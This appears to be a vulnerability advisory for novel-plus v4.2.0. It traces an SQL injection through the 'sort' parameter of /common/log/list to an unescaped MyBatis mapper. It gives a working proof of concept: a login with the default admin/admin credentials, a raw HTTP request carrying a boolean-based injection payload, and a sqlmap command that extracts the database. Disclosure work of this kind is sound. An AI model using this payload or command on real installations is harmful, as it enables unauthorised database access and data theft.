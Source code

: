 

# SQL injection vulnerability exists in novel-plus v4.2.0

Affected version: v4.2.0

official website: https://novel.xxyopen.com/index.htm

github: https://github.com/201206030/novel-plus

## Vulnerability Overview

SQL injection vulnerability in Novel-Plus v.4.2.0 allows a remote attacker to execute arbitrary code via a crafted script to the sort parameter in /common/log/list.

## Vulnerability details

Vulnerability route: /common/log/list

Vulnerable parameter: sort

### **Vulnerability source file path 1:**

novel-plus-develop_xxy\novel-admin\src\main\java\com\java2nb\common\controller

![1698330555839](../img/1.png)

#### **Vulnerability source file path 2:**

novel-plus-develop_xxy\novel-admin\src\main\java\com\java2nb\common\utils\Query.java

![1698330643839](../img/2.png)

#### **Vulnerability source file path 3:**

novel-plus-develop_xxy\novel-admin\src\main\java\com\java2nb\common\service\LogService.java

![1698331147638](../img/3.png)

In the LogController class, the @GetMapping("/list") annotation indicates that this method handles GET requests and returns a PageDO<LogDO> object.
In this method, the params parameters obtained from the @RequestParam annotation will be used to construct a Query object and passed to the logService.queryList(query) method for querying.

#### **Vulnerability source file path 4:**

novel-plus-develop_xxy\novel-admin\src\main\resources\mybatis\common\LogMapper.xml

![1698641784640](../img/4.png)

It can be seen that the sort parameter is not verified, filtered, and escaped. An attacker can use malicious input to inject arbitrary SQL code. 

**POC**

"Login to the backend using the default account username/password 'admin/admin' to obtain the administrator cookie."

![1698338638577](../img/5.png)

SQL injection, closure failed, error displayed

![1698340177810](../img/6.png)

SQL injection, successful closure, normal display  

![1698340057189](../img/7.png)

#### **POC**

```http
GET /common/log/list?limit=10&offset=0&sort=(SELECT+(CASE+WHEN+(1=1)+THEN+''+ELSE+(SELECT+1+UNION+SELECT+2)+END))&username HTTP/1.1
Host: 192.168.52.163:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: JSESSIONID=0e5249e3-d558-4248-9143-d32e992d4804
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

Use SQLmap to extract the current database

SQLmap command

```python
python sqlmap.py -u "http://192.168.52.163:8088/common/log/list?limit=10&offset=0&sort=&username=" --cookie "JSESSIONID=0e5249e3-d558-4248-9143-d32e992d4804" -p "sort" --level 3  --current-db --batch
```

![1698340451333](../img/8.png)

